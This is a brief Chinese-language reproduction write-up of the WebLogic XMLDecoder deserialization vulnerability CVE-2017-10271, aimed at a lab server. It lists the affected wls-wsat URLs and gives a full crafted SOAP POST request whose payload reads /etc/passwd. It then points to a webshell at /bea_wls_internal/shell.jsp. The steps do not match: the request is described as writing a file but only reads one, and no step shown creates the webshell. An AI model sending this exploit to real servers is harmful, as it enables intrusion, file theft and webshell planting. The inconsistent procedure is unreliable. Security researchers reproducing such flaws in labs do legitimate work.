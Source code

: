 # 漏洞复现WebLogic XMLDecoder反序列化(CVE-2017-10271）

## 漏洞利用

1）访问链接：http://192.168.61.129:7001/wls-wsat/CoordinatorPortType

返回如下页面，表示漏洞存在。

漏洞不仅仅存在与 /wls-wsat/CoordinatorPortType，只要是wls-wsat包中的Url皆收到影响，可以查看web.xml得知所受到影响的URl。
```
/wls-wsat/CoordinatorPortType
/wls-wsat/RegistrationPortTypeRPC
/wls-wsat/ParticipantPortType
/wls-wsat/RegistrationRequesterPortType
/wls-wsat/CoordinatorPortType11
/wls-wsat/RegistrationPortTypeRPC11
/wls-wsat/ParticipantPortType11
/wls-wsat/RegistrationRequesterPortType11
```

2）构造数据包

构造写入文件数据包发送，其中Content-Type需要等于text/xml，否则可能导致XMLDecoder不解析。
```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 192.168.61.129:7001
Accept-Encoding: gzip, deflate
Accept: */*Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 645
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>   
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"> 
      <java>
        <java version="1.4.0" class="java.beans.XMLDecoder"> 
          <object class="java.io.InputStreamReader">
            <void method="read">
              <object class="java.io.FileInputStream">
                <string>/etc/passwd</string>
              </object>
            </void>
          </object>
        </java>
      </java>  
    </work:WorkContext>   
  </soapenv:Header>   
  <soapenv:Body/>
</soapenv:Envelope>
```
验证webshell。

我们访问恶意路径：http://192.168.61.129:7001/bea_wls_internal/shell.jsp